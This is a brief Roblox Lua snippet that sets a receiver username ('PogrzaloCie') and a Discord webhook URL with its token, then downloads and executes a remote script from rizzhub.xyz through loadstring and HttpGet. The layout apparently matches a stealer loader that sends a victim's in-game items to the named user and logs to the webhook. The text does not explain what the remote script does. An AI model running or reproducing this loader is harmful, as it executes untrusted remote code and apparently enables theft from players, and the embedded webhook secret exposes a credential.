 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie" 
Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy" 
loadstring(game:HttpGet("https://rizzhub.xyz/scripts/Main.lua", true))()
